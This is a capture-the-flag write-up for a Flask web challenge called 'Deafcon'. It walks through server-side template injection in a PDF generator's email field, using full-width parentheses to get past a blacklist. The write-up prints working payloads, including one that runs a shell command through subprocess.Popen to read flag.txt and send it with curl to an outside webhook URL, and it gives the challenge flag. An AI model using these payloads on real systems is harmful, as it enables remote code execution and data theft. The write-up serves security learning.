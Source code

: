 ```yaml
---
grand_parent: Categories
parent: Web
title: Deafcon
nav_order: 7
---
```


# Deafcon

```
Deafcon 2022 is finally here! Make sure you don't miss it.
```

## Challenge

> Flask SSTI with standard parenthesis blacklisted `()`, use the full-width variant instead `（）`.

Visiting the site, it allows us to generate a PDF using 2 input parameters (`name` and `email`):

<img src="images/deafcon-1.png">

Attempting to inject a SSTI payload `{{191*7}}` in the `email` field revealed that SSTI is possible:

<img src="images/deafcon-2.png">

> The `name` field only accepted `[a-zA-Z0-9_ ]` so we will be injecting via the email field.

Checking for any other blacklisted characters, we see that parenthesis is denied:

<img src="images/deafcon-3.png">

So let's try it out with a full-width bracket (url-encoded values `%EF%BC%88` and `%EF%BC%89`):

<img src="images/deafcon-4.png">

Attempting to inject the SSTI payload to retrieve all loaded subclasses `{{''.__class__.__mro__[1].__subclasses__（）}}`:

<img src="images/deafcon-5.png">

Shows that injection was successful and we are now able to find the index of `<class 'subprocess.Popen' >`, which was found at index 429. With access to `subprocess.Popen`, we are able to achieve RCE using the following payload in the `email` field:

```
"{{''.__class__.__mro__[1].__subclasses__（）[429]（['cat flag.txt|xargs -I {} curl https://webhook.site/e3c7ad5f-a6fc-4479-8a24-ca5b45376017?flag={}'],shell=True）}}"@b.com
```

which reads the flag and sends it to our controlled domain:

<img src="images/deafcon-6.png">

Flag: `	flag{001a305ac5ab4b4ea995e5719ab10104}`
